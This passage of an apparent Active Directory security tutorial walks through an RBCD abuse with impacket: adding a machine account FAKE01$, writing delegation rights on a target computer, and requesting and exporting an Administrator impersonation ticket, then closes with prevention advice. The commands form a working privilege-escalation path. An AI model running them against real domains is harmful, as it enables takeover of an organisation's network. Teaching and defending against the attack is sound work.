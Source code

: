 ::github{repo="fortra/impacket"}

#### 4.2 Create the Machine Account

First let's create an *Attacker-Controlled Machine Account* called `FAKE01$` with the following password: `Password123!`

```bash
impacket-addcomputer -computer-name 'FAKE01$' -computer-pass 'Password123!' -dc-ip <IP> '<domain>/<User>:<Password>'
```

> **Output:** \[+] Successfully added machine account FAKE01$ with password Password123!\*

#### 4.3 Configuring RBCD

Now let's grant *RBCD* permissions to allow `FAKE01$` to delegate to `target$` successfully while target$ being the victim computer object we want to delegate to

```bash
impacket-rbcd -delegate-to '$target' -delegate-from 'FAKE01$' -dc-ip <ip> -action write '<domain>/<user>:<password>'
```

> **Output:** *\[+] Delegation rights modified successfully!*

#### 4.4 Request the Impersonation Ticket & Export it

To finish this let's request an *Impersonation Ticket*

```bash
impacket-getST -spn cifs/$target -impersonate Administrator -dc-ip <ip> '<domain>/FAKE01$:Password123!'
```

We're almost there, just export the *Kerberos Ticket*

```bash
export KRB5CCNAME=Administrator.ccache
```

From now, you successfully attacked **RBCD**, you can check the admin's ticket using klist

```c
klist
```

## 5. Conclusion

RBCD attacks reveal a critical truth in Active Directory security: **excessive permissions on computer objects can lead to complete domain compromise**. This isn't a complex exploit—it's abusing legitimate Kerberos features that become dangerous when combined with misconfigured trust.

The attack works because:

* **Default settings** allow any user to create computer accounts
* **Write permissions** on computer objects enable delegation configuration
* **Kerberos delegation** lets services impersonate users across systems

What makes RBCD particularly dangerous is its simplicity. With just a few commands, an attacker can escalate from basic domain user to domain administrator by weaponizing the very trust relationships designed to make AD functional.

### 5.2 **How to Prevent It:**

1. **Clean up permissions** regularly
2. **Monitor for new computer accounts**
3. **Use "cannot be delegated" for important admin accounts**
4. **Remember: in Active Directory, who you trust is more important than what you know**
